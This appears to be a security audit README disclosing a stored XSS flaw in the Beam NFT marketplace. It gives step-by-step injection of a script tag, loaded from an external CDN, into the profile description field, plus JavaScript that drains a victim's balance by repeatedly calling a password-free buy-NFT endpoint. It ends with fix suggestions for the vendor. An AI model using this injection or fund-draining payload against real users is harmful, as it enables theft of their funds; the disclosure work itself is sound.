


<div align="center">
  
  </br>

<p><i>Here we present the beamnft.art marketplace vulnerability and an example exploit.</i></p>
  <hr>
</div>

# Vulnerability - Stored XSS

[The Beam NFT Marketplace](https://beamnft.art/) is vulnerable to a [XSS attack](https://owasp.org/www-community/attacks/xss/), which allows malicious scripts to be embedded into the marketplace.

> Click the XSS link above to read about what an XSS attack is, we wont go into that here.

## How to execute

Before injecting the malicious payload, you must first download and install the [Beam Web Wallet](https://chrome.google.com/webstore/detail/beam-web-wallet/ilhaljfiglknggcoegeknjghdgampffk), after this head over to [The Beam NFT Marketplace](https://beamnft.art/) and get signed up!

Once signed up, complete your profile, an attacker would want to make this look as presentable and inviting as possible. The description field is where were going to inject our malicious javascript!

## Injection

Within the description field, simply enter the following piece of javascript

```
<script src="https://<yourcdn>.net/nftengine.js"></script>
```

Typically a threat actor may use a CDN to to host the malicious payload, the above code will not work, the payload will load from an external source (source your own cdn and use correct url)

<div align="center">
  
  </br>
</div>

# Exhausting the users balance

Take a look at [nftengine.js](https://github.com/PRISM-Privacy/beamnft-audit/blob/main/nft-engine.js), this is the malicious payload that allows the exhausting and stealing of users funds.

## How it works

The malicious script takes advantage of the buy NFT api endpoint which doesnt require the users password, this allows the malicious actor to buy his own NFTs without the users knowledge in an iterative fashion until the users balance is exhausted!

The script iterates over the NFT prices in the malicious actors collection, if the balance is bigger than the price of the NFT, it executes a buy order, and continues until it has check each NFT in the collection!

```
exhaustFunds = async (balance, nfts) => {
  // balance in BEAM and GROTH
  let beamBalance = balance / 100000000;
  let grothBalance = balance;
  let transactionFee = 100000000;

  console.clear(); // sanitize console

  console.log(`balance in BEAM: ${beamBalance} BEAM`);
  console.log(`balance in GROTH: ${grothBalance} GROTH\n\n`);

  // loop through nft object, show only nfts which are for sale (price > 0)
  for (let key in nfts) {
    if (nfts[key].price != 0 && nfts[key].price < grothBalance) {
      let bought = await buyNft(nfts[key]._id, nfts[key].price);
      grothBalance = grothBalance - (nfts[key].price + transactionFee); // update balance
      console.log(`exhaused ${nfts[key].price / 100000000} BEAM`); // replace console.log with discord notification
      //  TODO - Do we need to wait for => block confirmation before continue?
    } else {
      console.log(
        "didnt exhaust, either NFT isnt for sale or balance too low to afford NFT"
      );
    }
  }
};
```

> The following image shows the required parameters to buy an NFT (no password required), the image after shows the required parameters to withdraw (requires password)

<div align="center">
  
</div>

<div align="center">
  
</div> 

# Tips for BeamNFT to fix

1. Sanitize inputs and check for presence or Javascript

2. No need for the API, its not for public use and was a great help

3. Why is so much info coming back in the console? dont log so much info to console, was a great help
